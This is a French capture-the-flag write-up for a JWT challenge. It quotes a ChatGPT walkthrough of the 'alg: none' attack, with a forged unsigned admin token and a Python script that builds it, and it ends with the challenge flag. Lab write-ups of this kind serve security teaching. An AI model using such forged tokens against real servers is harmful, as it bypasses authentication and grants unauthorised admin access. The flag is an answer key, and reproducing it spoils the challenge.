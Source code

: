 ![amulette_akawa_3](amulette_akawa_3.png)

## Enoncé

>Tu avances plus profondément dans la grotte, là où réside la Chouette Nocturne, symbole de sagesse et d'illusion. Elle pose une énigme encore plus complexe :* "L'apparence peut être trompeuse. Ce que tu crois être solide peut ne pas l'être."*
>
>Devant toi se dresse une tablette de pierre sur laquelle est inscrite une nouvelle formule magique sous forme de symbole chiffré. Cette fois, tu sens que la protection semble plus solide, mais la chouette murmure : "Ce que l'on te dit être indestructible peut être réduit à néant si tu sais où chercher."
>
>Tu réalises qu'il te suffit de modifier subtilement l'algorithme de la formule pour la rendre inoffensive, ouvrant ainsi un passage vers la suite.

## Résolution

Idem que pour [L'Amulette d'Akawa 2 - La Bénédiction de l'Anguille d'Or](L'Amulette%20d'Akawa%202%20-%20La%20Bénédiction%20de%20l'Anguille%20d'Or.md) sauf que cette fois ci on refait un jwt on lui indiquant qu’il n’y a pas d’algorithme à vérifier.

D’après chatgpt : 

Pour exploiter un JWT en utilisant l'algorithme **"none"**, tu dois comprendre comment le JWT est vérifié côté serveur. Si le serveur n'est pas correctement configuré, il pourrait accepter un jeton avec une signature vide et ignorer la vérification. Voici comment cette attaque fonctionne et les étapes pour tenter de l'exploiter.

### Contexte : JWT avec algorithme "none"

Un JWT a trois parties :
1. **Header** : contient l'algorithme de signature, par exemple `"alg": "HS256"`.
2. **Payload** : contient les données.
3. **Signature** : protège contre la modification des deux premières parties.

Si le serveur accepte un JWT où l'algorithme est `"none"`, cela signifie que le serveur ne vérifie **pas** la signature, ce qui rend possible la modification du jeton sans recalculer la signature.

### Étapes pour exploiter en changeant l'algorithme à "none"

#### 1. Décoder le JWT actuel

Décode d'abord le **header** et le **payload** de ton JWT en **base64**.

Ton JWT actuel :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6MCwiZXhwIjoxNzI4MzM2ODczfQ.FgJBalNV4fO0a78hjh1iJqBznKjAtmQ8O1Ob3eXuls8
```

Décodage du **header** :
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Décodage du **payload** :
```json
{
  "admin": 0,
  "exp": 1728336873
}
```

#### 2. Modifier le header pour utiliser l'algorithme "none"

Remplace l'algorithme `"HS256"` par `"none"` dans le **header** :

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

#### 3. Modifier le payload

Modifie le **payload** pour donner à l'utilisateur des droits administratifs en changeant `"admin": 0` à `"admin": 1` :

```json
{
  "admin": 1,
  "exp": 1728336873
}
```

#### 4. Recombiner le JWT sans signature

- **Header encodé en base64** : `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`
- **Payload encodé en base64** : `eyJhZG1pbiI6MSwiZXhwIjoxNzI4MzM2ODczfQ`

Tu recombines ces deux parties pour former un JWT **sans signature** :

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhZG1pbiI6MSwiZXhwIjoxNzI4MzM2ODczfQ.
```

Note que la troisième partie (la signature) est vide après le dernier point.

#### 5. Envoyer le nouveau JWT

Remplace l'ancien JWT dans la requête par le nouveau jeton avec l'algorithme `"none"`. Si le serveur est mal configuré et accepte ce JWT, il pourrait te donner un accès administrateur sans vérifier la signature.

### Pourquoi cette attaque fonctionne

Lorsque tu changes l'algorithme à `"none"`, tu indiques au serveur qu'aucune signature n'est nécessaire pour ce JWT. Si le serveur n'a pas été correctement configuré pour rejeter ce type de jeton, il peut accepter le JWT sans signature et traiter les données du **payload** telles qu'elles sont, y compris le fait que `admin = 1`.

### Problèmes potentiels

- Si le serveur est correctement configuré, il rejettera un jeton avec `"alg": "none"`.
- Certains serveurs peuvent avoir des protections contre cette attaque, notamment en vérifiant que tous les jetons doivent avoir une signature valide.

### Outils pour tester

Tu peux utiliser des outils comme [jwt.io](https://jwt.io) pour facilement décoder, modifier et tester des jetons JWT.

Si tu veux tester l'exploitation de JWT avec Python, tu peux utiliser des bibliothèques comme **PyJWT** pour construire un tel JWT.

### Exemple Python pour créer un JWT avec "none"

```python
import base64
import json

header = {
    "alg": "none",
    "typ": "JWT"
}
payload = {
    "admin": 1,
    "exp": 1728336873
}

# Encodage en base64 sans padding
def base64_encode(data):
    return base64.urlsafe_b64encode(json.dumps(data).encode()).decode().rstrip('=')

header_encoded = base64_encode(header)
payload_encoded = base64_encode(payload)

# Le JWT avec "none" comme algorithme n'a pas de signature
jwt = f"{header_encoded}.{payload_encoded}."

print(jwt)
```

Cela te donnera un JWT avec `"alg": "none"` que tu peux tester si le serveur est vulnérable.


On envoi dans le jwt suivant au serveur : `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhZG1pbiI6MSwiZXhwIjoxNzI4MzM2ODczfQ.
` et ça passe.

>[!question]- Spoiler du flag
> OPENNC{JW7_N3eDs_41g0_Ch3cK1nG_70_b3_s4f3}

